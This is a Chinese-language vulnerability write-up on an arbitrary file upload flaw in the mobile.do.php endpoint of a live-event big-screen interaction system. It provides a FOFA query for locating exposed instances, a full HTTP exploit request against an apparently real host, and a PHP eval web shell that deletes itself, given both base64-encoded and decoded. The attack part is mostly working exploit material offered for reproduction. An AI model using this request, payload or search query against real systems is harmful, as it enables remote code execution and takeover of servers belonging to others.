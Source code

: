 ### 现场活动大屏幕系统任意文件上传漏洞

#### 漏洞描述

> 金华迪加现场大屏互动系统mobile.do.php接口存在任意文件上传漏洞

![image-20241112140447878](./assets/image-20241112140447878.png)

#### fofa查询语句

`body="/wall/themes/meepo/assets/images/defaultbg.jpg" || title="现场活动大屏幕系统"`

#### 漏洞复现

漏洞数据包：

```http
 GET /mobile/mobile.do.php?action=msg_uploadimg HTTP/2
 Host: hudong.zhubo.tech
 Cookie: PHPSESSID=9dc1f0dva5ho93r2104sdso66q
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate, br
 Upgrade-Insecure-Requests: 1
 Sec-Fetch-Dest: document
 Sec-Fetch-Mode: navigate
 Sec-Fetch-Site: none
 Sec-Fetch-User: ?1
 Priority: u=0, i
 Te: trailers
 Content-Length: 56
 
 PD9waHAgQGV2YWwoJF9QT1NUWzFdKTt1bmxpbmsoX19GSUxFX18pOz8+
```

```php
<?php @eval($_POST[1]);unlink(__FILE__);?>
PD9waHAgQGV2YWwoJF9QT1NUWzFdKTt1bmxpbmsoX19GSUxFX18pOz8+
```



![image-20241112140759142](./assets/image-20241112140759142.png)



![image-20241112141021000](C:\Users\24937\AppData\Roaming\Typora\typora-user-images\image-20241112141021000.png)

- 可以发现成功访问到并下载,说明存在该漏洞,只是对上传的文件做了`处理`(php给我去掉了)

![image-20241112140818837](./assets/image-20241112140818837.png)
